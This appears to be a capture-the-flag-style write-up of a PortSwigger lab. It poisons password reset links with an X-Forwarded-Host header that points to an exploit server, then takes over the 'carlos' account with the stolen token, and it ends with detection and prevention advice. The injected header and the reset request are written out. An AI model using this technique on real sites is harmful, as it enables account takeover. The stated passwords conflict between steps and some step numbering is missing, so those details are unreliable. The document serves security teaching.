





# Password Reset Poisoning via Middleware

**Date:** October 2026 <br>
**Author:** ShahinSecLab <br>
**Category:** Authentication <br>
**Vulnerability:** Password Reset Poisoning (X-Forwarded-Host) <br>
**Difficulty:** Practitioner <br>
**Platform:** PortSwigger Web Security Academy <br>
**Tools:** Burp Suite, Firefox <br>
**Status:** Solved ✅

## Table of Contents

* [Introduction](#introduction)
* [Attack Flow](#attack-flow)
* [Why This Attack Works](#why-this-attack-works)
* [Lab Setup](#lab-setup)
* [Tools Used](#tools-used)
* [Prerequisites](#prerequisites)
* [Step 1 — Checking the Password Reset Function](#step-1--checking-the-password-reset-function)
* [Step 2 — Sending the Request to Repeater](#step-2--sending-the-request-to-repeater)
* [Step 3 — Testing X-Forwarded-Host](#step-3--testing-x-forwarded-host)
* [Step 4 — Sending the Poisoned Request for Carlos](#step-4--sending-the-poisoned-request-for-carlos)
* [Step 5 — Getting Carlos's Reset Token](#step-5--getting-carloss-reset-token)
* [Step 6 — Using Carlos's Reset Token](#step-6--using-carloss-reset-token)
* [Step 7 — Setting a New Password](#step-7--setting-a-new-password)
* [Step 8 — Logging In as Carlos](#step-8--logging-in-as-carlos)
* [Detection](#detection)
* [Prevention](#prevention)
* [References](#references)
* [Key Takeaways](#key-takeaways)

## Introduction

This lab is vulnerable to **password reset poisoning**. The password reset link contains a unique token that lets a user set a new password, and the application trusts the `X-Forwarded-Host` header when building that link. I used this to make Carlos's reset link point to my exploit server. When Carlos clicked the link, his reset token landed on my server, and I used that stolen token to reset his password and log in to his account.

The goal was to:

1. Confirm the password reset function works normally.
2. Test whether `X-Forwarded-Host` controls the link's domain.
3. Poison a reset request for Carlos so his token lands on my exploit server.
4. Steal the token and use it with the real application to reset his password.
5. Log in as Carlos.

## Attack Flow

```
[POST /forgot-password] --add header--> [X-Forwarded-Host: exploit-server]
       |
       v
[Server builds reset link using the poisoned host]
       |
       v
[Request sent for username: carlos]
       |
       v
[Carlos receives email, clicks the reset link]
       |
       v
[Carlos's browser hits exploit server with his reset token]
       |
       v
[Exploit Server Access log reveals the stolen token]
       |
       v
[Swap token into the real lab reset URL]
       |
       v
[Set new password for carlos]
       |
       v
[Login as carlos]
```

## Why This Attack Works

The application uses the `X-Forwarded-Host` header when creating password reset links, trusting it instead of relying only on its own configured domain. Normally this header is set by a proxy to tell the backend which host the client originally requested, but the app never validates it. By sending a request with `X-Forwarded-Host` pointing to my exploit server, the generated reset link for Carlos points there instead of the real lab domain. When Carlos clicks the link, his browser sends a request to my server containing his password reset token. That token can then be swapped into the real application's reset URL to set a new password, because the backend never checks who requested the reset or where the link was clicked from.

## Lab Setup

| Field | Value |
|---|---|
| Target | PortSwigger Web Security Academy |
| Lab Name | Password reset poisoning via middleware |
| Target Username | carlos |
| Vulnerable Mechanism | `X-Forwarded-Host` header trusted when building the reset link |
| Tool Used | Burp Suite Community Edition (Proxy, Repeater), lab's built-in Exploit Server and email client |

## Tools Used
- Burp Suite Community Edition (Proxy, Repeater)
- Lab's built-in Exploit Server
- Lab's built-in email client
- Firefox

## Prerequisites

* Burp Suite running with browser proxy configured
* Basic understanding of how `X-Forwarded-Host` is meant to be used by reverse proxies
* Access to the lab's Exploit Server and email client
* Familiarity with Burp Repeater for modifying and resending requests

## Step 1 — Checking the Password Reset Function

I opened the login page and clicked **Forgot password**. I first tested the function using my own account, username `wiener`. I submitted the request and checked the email client on the exploit server, where I received a password reset email containing a link with a unique reset token.

<p align="center">
  
</p>

## Step 2 — Sending the Request to Repeater

I opened **Burp → Proxy → HTTP history** and found the `POST /forgot-password` request, which carried the username parameter. I sent this request to **Burp Repeater** so I could modify and resend it freely, and confirmed the reset email was still generated correctly before touching anything.

<p align="center">
  
</p>

## Step 3 — Testing X-Forwarded-Host

While checking the request, I noticed the application accepted an `X-Forwarded-Host` header. I added it manually, pointing to my exploit server, and found that the application uses this value when building the password reset link. So instead of generating a link pointing to the lab domain, it generated one pointing to my exploit server instead.

| Field | Value | Description |
|---|---|---|
| Header Added | `X-Forwarded-Host: YOUR-EXPLOIT-SERVER-ID.exploit-server.net` | Overrides the host used to build the reset link |
| Normal Link | `https://LAB-ID.web-security-academy.net/...` | Expected domain for the reset link |
| Poisoned Link | `https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/...` | Domain the app generated after adding the header |

<p align="center">
  
</p>

## Step 4 — Sending the Poisoned Request for Carlos

I went to the **Exploit Server** and copied my exploit server URL. Back in Burp Repeater, I kept the `X-Forwarded-Host` header pointing to my exploit server, but this time changed the username parameter from `wiener` to `carlos`, and sent the request. The application generated Carlos's password reset link using my exploit server as the host.

<p align="center">
  
</p>

## Step 5 — Getting Carlos's Reset Token

I opened the **Exploit Server → Access log** and found a request from Carlos containing the `temp-forgot-password-token` parameter. I copied the token value out of this request.

<p align="center">
  
</p>

## Step 6 — Using Carlos's Reset Token & Setting a New Password

I took the reset token I got for Carlos and replaced the `wiener` token in the password reset request.

I sent the request to Burp Repeater and changed the `temp-forgot-password-token` parameter to Carlos's token.

Then, I changed both password fields to the new password:

```text
new-password-1=pass1
new-password-2=pass1
```

The final request looked like this:

```http
POST /forgot-password?temp-forgot-password-token=aqn1heba5gj1idy4jqie83vasetpaj6s

temp-forgot-password-token=aqn1heba5gj1idy4jqie83vasetpaj6s&new-password-1=pass1&new-password-2=pass1
```

I sent the request from Burp Repeater. The password reset request was accepted, so Carlos's password was changed to `pass1`.


## Step 8 — Logging In as Carlos

Finally, I went back to the login page and logged in using Carlos's username with the password I had just set.

| Field | Value | Description |
|---|---|---|
| Username | `carlos` | Target account |
| Password | `mynewpassword123` | Password set in the previous step |
| Result | Logged in as carlos | Lab marked as solved |

<p align="center">
  
</p>

## Detection

* Reset requests where the `Host` or `X-Forwarded-Host` header does not match the application's own configured domain
* Password reset tokens appearing in access logs of a domain other than the application itself
* A spike in reset requests for a single username originating from a different session or IP than the one receiving the reset email

## Prevention

* Never build absolute URLs (including reset links) from client-supplied headers like `X-Forwarded-Host`; use a fixed, server-side configured domain instead
* If a reverse proxy sets `X-Forwarded-Host`, validate it against an allow-list before trusting it anywhere in the application
* Bind password reset tokens to the session or request that generated them, so a token alone is not enough to complete a reset
* Expire reset tokens quickly and invalidate them after first use

## References

* PortSwigger Web Security Academy — Authentication vulnerabilities
* PortSwigger — Password reset poisoning
* OWASP — Forgot Password Cheat Sheet

## Key Takeaways

* Trusting `X-Forwarded-Host` without validation lets an attacker redirect sensitive, token-bearing links to a server they control
* A password reset token is as sensitive as a password itself; leaking it is equivalent to handing over account access
* Testing header-based host manipulation is worth doing on any flow that builds a link or email containing a secret
* Password reset functionality deserves the same scrutiny as the login form, since it is just another path to full account control